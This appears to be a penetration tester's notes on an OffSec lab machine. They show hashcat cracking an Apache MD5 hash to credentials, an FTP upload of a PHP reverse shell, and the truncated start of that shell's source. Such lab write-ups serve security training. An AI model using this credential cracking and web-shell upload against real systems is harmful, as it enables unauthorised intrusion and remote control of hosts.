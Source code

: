 $apr1$oRfRsc/K$UpYpplHDlaemqseM39Ugg0:elite               
                                                          
Session..........: hashcat
Status...........: Cracked
Hash.Mode........: 1600 (Apache $apr1$ MD5, md5apr1, MD5 (APR))
Hash.Target......: $apr1$oRfRsc/K$UpYpplHDlaemqseM39Ugg0
Time.Started.....: Mon Oct 20 12:42:52 2025 (2 secs)
Time.Estimated...: Mon Oct 20 12:42:54 2025 (0 secs)
Kernel.Feature...: Pure Kernel (password length 0-256 bytes)
Guess.Base.......: File (/usr/share/wordlists/rockyou.txt)
Guess.Queue......: 1/1 (100.00%)
Speed.#01........:    13471 H/s (12.59ms) @ Accel:88 Loops:1000 Thr:1 Vec:4
Recovered........: 1/1 (100.00%) Digests (total), 1/1 (100.00%) Digests (new)
Progress.........: 25344/14344385 (0.18%)
Rejected.........: 0/25344 (0.00%)
Restore.Point....: 25168/14344385 (0.18%)
Restore.Sub.#01..: Salt:0 Amplifier:0-1 Iteration:0-1000
Candidate.Engine.: Device Generator
Candidates.#01...: lotsoflove -> 360360
Hardware.Mon.#01.: Util: 99%

Started: Mon Oct 20 12:42:43 2025
Stopped: Mon Oct 20 12:42:55 2025

offsec:elite

FTP --> doesnt work, both port
rdesktop (RDP) --> doesnt work

work here --> http://authby.offsec:242/ 

http://authby.offsec:242/index.php

ftp> put revshell.php
local: revshell.php remote: revshell.php
229 Entering Extended Passive Mode (|||2127|)
150 File status okay; about to open data connection.
100% |***********************************************************************************************************************************************************************************************|  9289       14.33 MiB/s    00:00 ETA
226 Closing data connection.
9289 bytes sent in 00:00 (122.82 KiB/s)

┌──(lepotekil㉿kali)-[~/proving-ground-prac/authby]
└─$ cat revshell.php 
<?php
// Copyright (c) 2020 Ivan Sincek
// v2.3
// Requires PHP v5.0.0 or greater.
// Works on Linux OS, macOS, and Windows OS.
// See the original script at https://github.com/pentestmonkey/php-reverse-shell.
class Shell {
    private $addr  = null;
    private $port  = null;
    private $os    = null;
    private $shell = null;
    private $descriptorspec = array(
        0 => array('pipe', 'r'), /
....
....
....
